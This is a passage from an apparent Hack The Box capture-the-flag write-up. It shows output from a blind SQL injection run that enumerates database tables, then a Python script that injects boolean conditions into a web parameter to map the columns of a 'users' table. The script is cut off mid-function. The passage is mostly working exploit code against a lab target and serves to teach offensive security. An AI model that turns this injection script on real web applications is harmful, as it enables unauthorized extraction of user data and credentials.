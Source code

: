 ```bash
[*] Extracting table name at index 2...
...SNIP...
[✔] Extracted table name 2: option_list
[*] Finding length of table name at index 3...
[✔] Length of table 3: 13
[*] Extracting table name at index 3...
...SNIP...
[✔] Extracted table name 3: question_list
[*] Finding length of table name at index 4...
[✔] Length of table 4: 11
[*] Extracting table name at index 4...
...SNIP...
[✔] Extracted table name 4: system_info
[*] Finding length of table name at index 5...
[✔] Length of table 5: 5
[*] Extracting table name at index 5...
...SNIP...
[✔] Extracted table name 5: users

[✔] All tables: ['category_list', 'exam_list', 'option_list', 'question_list', 'system_info', 'users']
```

##### Columns

```python
┌──(kali㉿kali)-[~/htb/seventeen]
└─$ cat sqli_get_columns.py 
import requests

BASE_URL = "http://exam.seventeen.htb/?p=take_exam&id="
SUCCESS_KEYWORD = "202202-00001"
TARGET_TABLE = "users"

def is_condition_true(condition):
    payload = f"1' AND {condition}-- -"
    target_url = BASE_URL + payload
    try:
        response = requests.get(target_url, timeout=5)
        return SUCCESS_KEYWORD in response.text
    except Exception as e:
        print(f"[!] Request failed: {e}")
        return False

def find_column_count(max_columns=30):
    print(f"[*] Finding total number of columns in table '{TARGET_TABLE}'...")
    for i in range(1, max_columns + 1):
        condition = f"(SELECT COUNT(column_name) FROM information_schema.columns WHERE table_name='{TARGET_TABLE}')={i}"
        if is_condition_true(condition):
            print(f"[✔] Number of columns in '{TARGET_TABLE}': {i}")
            return i
    print("[!] Could not determine the number of columns.")
    return None

def find_column_name_length(column_index, max_length=50):
    print(f"[*] Finding length of column name at index {column_index}...")
    for length in range(1, max_length + 1):
        condition = f"LENGTH((SELECT column_name FROM information_schema.columns WHERE table_name='{TARGET_TABLE}' LIMIT 1 OFFSET {column_index}))={length}"
        if is_condition_true(condition):
            print(f"[✔] Length of column {column_index}: {length}")
            return length
    print("[!] Could not determine column name length.")
```